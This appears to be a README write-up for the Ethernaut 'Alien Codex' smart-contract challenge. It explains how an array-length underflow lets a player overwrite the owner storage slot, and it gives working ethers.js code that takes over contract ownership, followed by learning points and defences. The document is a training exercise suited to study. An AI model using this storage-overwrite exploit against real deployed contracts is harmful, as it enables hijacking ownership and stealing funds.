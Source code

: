 # Ethernaut - Alien Codex Solution Record

This project is a solution for the Alien Codex level in the [Ethernaut](https://ethernaut.openzeppelin.com/) smart contract security challenge game.

## Challenge Objective

In the Alien Codex challenge, we need to seize ownership of the contract (change the owner to our address).

## Contract Analysis

This contract inherits from the `Ownable` contract and contains the following main components:

```solidity
contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## Vulnerability Analysis

The contract contains two main vulnerabilities:

1. **Integer Underflow**: In the `retract()` function, when the `codex` array is empty, `codex.length--` causes a length underflow, becoming 2^256-1, which allows us to access arbitrary storage locations.

2. **Storage Layout Knowledge**: By leveraging knowledge of Solidity storage layout, we can modify the contract's `owner` variable by manipulating the `codex` array.

## Solution Strategy

The solution steps are as follows:

1. Call `makeContact()` to set `contact = true`, so we can use other functions that require the `contacted` modifier.

2. Call the `retract()` function to cause the `codex` array length to underflow, allowing us to access arbitrary storage locations.

3. Calculate the `codex` array index corresponding to the storage location of the `owner` variable:
   - In Solidity, dynamic array `codex` data starts from `keccak256(slot_of_codex) + 0, 1, 2, ...`
   - The `owner` variable is in storage slot 0
   - The `codex` array is in storage slot 1
   - Therefore we need to find an index `i` such that: `keccak256(1) + i ≡ 0 (mod 2^256)`
   - So `i = 2^256 - keccak256(1)`

4. Call the `revise(i, address)` function, passing in the calculated index and our address (padded to 32 bytes), to change the `owner` to our address.

## Code Implementation

```typescript
// 1. makeContact
await alienCodex.makeContact();

// 2. Cause integer underflow through retract, making codex array length 2^256-1
await alienCodex.retract();

// 3. Calculate the array index for owner position
const codexArrayStorageSlot = "0x0000000000000000000000000000000000000000000000000000000000000001";
const codexDataStartStorageSlot = ethers.keccak256(codexArrayStorageSlot);
const NUMBER_OF_SLOTS = BigInt(2) ** BigInt(256);
const ownerPositionInMap = NUMBER_OF_SLOTS - BigInt(codexDataStartStorageSlot);

// 4. Use revise to change owner to our address
const parsedAddress = ethers.zeroPadValue(signer.address, 32);
await alienCodex.revise(ownerPositionInMap, parsedAddress);
```

## Learning Points

1. **Solidity Storage Layout**: Understanding how Solidity lays out variables in storage, especially storage layout for inherited contracts and storage methods for dynamic arrays.

2. **Integer Underflow Risk**: Before Solidity version 0.8.0, integer operations didn't automatically check for overflow/underflow, leading to many security vulnerabilities.

3. **EVM Storage Mechanism**: Understanding the EVM's storage slot mechanism, with each slot being 32 bytes, and how to indirectly change one variable by manipulating another.

4. **Array Access Control**: Contracts should implement strict array index range checking to prevent out-of-bounds access.

5. **Contract Security**: This challenge emphasizes the importance of understanding low-level implementation details in smart contract development.

## Defense Measures

To prevent similar vulnerabilities, the following measures can be taken:

1. Use SafeMath library or Solidity 0.8.0+ versions to prevent integer overflow/underflow.
2. Implement strict access control and index range checking.
3. Ensure array operations are safe, especially when reducing length.
4. Implement multi-verification mechanisms for sensitive operations (such as ownership changes).

## Summary

The Alien Codex challenge demonstrates the serious security vulnerabilities that can result from the combination of Solidity storage layout and integer underflow. By understanding how the EVM works, we can cleverly exploit design flaws in contracts to hijack contract ownership.
